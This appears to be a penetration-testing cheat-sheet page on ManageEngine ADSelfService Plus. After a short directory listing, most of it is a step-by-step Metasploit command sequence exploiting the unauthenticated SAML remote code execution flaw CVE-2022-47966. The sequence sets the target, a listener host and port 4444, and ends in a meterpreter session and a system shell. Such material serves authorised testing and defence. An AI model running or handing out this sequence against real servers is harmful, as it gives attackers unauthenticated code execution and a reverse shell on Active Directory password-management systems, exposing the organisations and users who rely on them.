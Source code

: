 ```yaml
---
title: ManageEngine ADSelfService Plus PrivEsc
description: ADSelfService Plus is an integrated Active Directory Self-Service Password Management and Single Sign-on Solution that reduces password-related help desk calls. Default ports are 8888 (http) and 9251 (https).
tags:
    - Privilege Escalation
    - Windows
refs:
date: 2023-04-16
draft: false
---
```


## Directories

```bash
dir -Force \Program Files (x86)\ManageEngine\ADSelfService Plus\
```

<br />

## Unauthenticated SAML RCE (CVE-2022-47966)

Reference: [https://www.rapid7.com/db/modules/exploit/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966/](https://www.rapid7.com/db/modules/exploit/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966/)

```bash
msfconsole
msf> use exploit/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966
msf> set GUID 43ae36f51da65753530a64b37a510a53
msf> set ISSUER_URL http://example.com/adfs/services/trust
msf> set RHOSTS <target-ip>
msf> set RPORT 9251
msf> set LHOST <local-ip>
msf> set LPORT 4444
msf> run
meterpreter> shell
```
